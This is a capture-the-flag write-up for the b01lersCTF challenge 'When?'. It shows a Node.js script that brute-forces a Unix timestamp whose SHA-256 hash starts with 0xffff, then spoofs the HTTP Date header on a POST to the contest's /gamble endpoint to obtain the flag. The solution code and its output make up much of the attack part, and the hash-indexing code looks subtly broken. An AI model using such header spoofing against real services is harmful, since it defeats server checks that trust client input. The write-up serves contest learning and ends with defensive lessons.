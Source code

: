 # b01lersCTF — “When?” Write‑Up

> Sometimes all it takes to win is being in the *right place* at the *right time*… or just faking it.

---

## Why I Picked This One

The challenge name **“When?”** immediately sounded suspiciously time-based. A quick peek at the source code showed that a  timestamp is needed to satisfy a specific hash constraint. Combine that with a custom `Date` header in an HTTP request, and we’ve got ourselves a fairly easy exploit

---

## What You Need

- **Node.js** (v18+ with `WebCrypto` support)

- **Internet** connection to reach `when.atreides.b01lersc.tf`

- **Basic knowledge** of HTTP headers and SHA-256

```bash
node solution.js
```

---

## The Challenge in a Nutshell

You are given a link to a webpage `https://when.atreides.b01lersc.tf/`. Visiting this page shows following interface

![](/home/mh/.config/marktext/images/2025-04-26-09-36-37-image.png)

An attempt to gamble shows similar output to this 

![](/home/mh/.config/marktext/images/2025-04-26-09-37-49-image.png)

Now after taking a look that the client source i see this 

```js
await fetch("/gamble", { method: "POST"})
```

After inspecting the gamble route 

```js
if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{redacted}"
            })
  } 


```

- The server checks that the **first two bytes** of the hash are `0xff`.

- If true, it returns a fake flag (in the live challenge, it would be real).
  
  ##### Key Points

- The server trusts the `Date` header — meaning **you can search for a valid timestamp offline**, then spoof it in your request.

- SHA-256 is computationally expensive but not impossible to brute-force for this use case.

- You only need to find a timestamp whose **SHA-256 hash starts with `0xffff`**.

Once found, it sends a POST request to:

```
https://when.atreides.b01lersc.tf/gamble
```

…with this timestamp set as the HTTP `Date` header.

If the server agrees the timestamp is “lucky,” it replies with a flag.

---

## Step 1: Find a Lucky Number

Here’s the relevant part of `solution.js` that does the heavy lifting:

```ts
let number = Math.floor(Date.now() / 1000);
while (true) {
    const hash = await subtle.digest("SHA-256", Buffer.from(number.toString()));
    if (hash[0] === 255 && hash[1] === 255) break;
    number++;
}
```

The loop brute-forces starting from “now,” trying one Unix timestamp after another.

Once a valid one is found (which is rare, but not *that* rare), it posts to `/gamble` with:

```ts
headers: {
    date: new Date(number * 1000)
}
```

---

## Step 2: Let It Run

Just run the script and watch the console:

```bash
$ npm install
$ node solution.js

{
  success: true,
  result: '1111111111111111',
  flag: 'bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}'
}
Found: 1745748971
Hash: ffff87b6b450c8c01b1425109f8d0b5f22d86e77028bbdbadf275c6a142d8c12
```

And there it is — the flag.



## Lessons Learned

1. **Time-based PoW** is neat — especially when it's just one extra HTTP header.

2. **Don’t trust client headers blindly** — this server lets anyone spoof any time.

3. **SHA-256 randomness** makes brute-forcing feasible but still a decent challenge.

4. **Rate limiting helps** — the server caps brute-force attempts to 60/min, which slows things down just enough.
